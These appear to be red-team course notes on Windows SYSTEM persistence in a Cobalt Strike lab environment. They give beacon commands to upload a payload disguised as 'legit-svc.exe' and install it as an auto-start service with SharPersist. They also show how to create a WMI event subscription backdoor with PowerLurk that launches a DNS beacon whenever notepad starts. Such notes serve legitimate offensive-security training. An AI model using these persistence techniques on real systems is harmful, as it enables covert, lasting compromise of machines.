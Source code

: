 
As we have seen user is running thourgh a proxy:

```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe - Internet Settings

====== InternetSettings ======

  HKCU                       ProxyEnable : 1
  HKCU                     ProxyOverride : *.cyberbotic.io;<local>
  HKCU                       ProxyServer : squid.dev.cyberbotic.io:3128
  
```

 So we cannot use http listeners for SYSTEM. We must use DNS or P2P.

## Windows Services

As we saw in in the previous chapter, there are many Windows services that run as SYSTEM.  Our various means of exploiting services for privilege escalation also act as persistence, but at the cost of breaking the legitimate service.  Instead, we can create our own service which won't impact on existing services.

```
beacon> cd C:\Windows
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe legit-svc.exe

beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add

[*] INFO: Adding service persistence
[*] INFO: Command: C:\Windows\legit-svc.exe
[*] INFO: Command Args: 
[*] INFO: Service Name: legit-svc

[+] SUCCESS: Service persistence added
```

> [!important] 
> Use svc payload since we are creating a service. 


This will create a new service in a STOPPED state, but with the START_TYPE set to AUTO_START. 

This means the service won't run until the machine is rebooted.  When the machine starts, so will the service, and it will be waiting for a connection.

Use connect localhost 4444 to connect to the beacon.

## WMI Subscription

WMI is used to administrate computer, we need three variables

-   EventConsumer: Action to perfom
-   EventFilter: Trigger 
-   FilterToConsumerBinding: Binfing trigger with action


[PowerLurk](https://github.com/Sw4mpf0x/PowerLurk) is a PowerShell tool for building these WMI events. 

In this example, I will upload a DNS payload into the Windows directory, import PowerLurk.ps1 and create a new WMI event subscription that will execute it whenever notepad is started.

```
beacon> cd C:\Windows
beacon> upload C:\Payloads\dns_x64.exe
beacon> powershell-import C:\Tools\PowerLurk.ps1
beacon> powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermanentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe
```


You can view these classes afterwards using `Get-WmiEvent -Name WmiBackdoor`.  The _CommandLineTemplate_ for the EventConsumer will simply be `C:\Windows\dns_x64.exe`; and query for the EventFilter will be `SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='notepad.exe'`.

The backdoor can be removed with `Get-WmiEvent -Name WmiBackdoor | Remove-WmiObject`.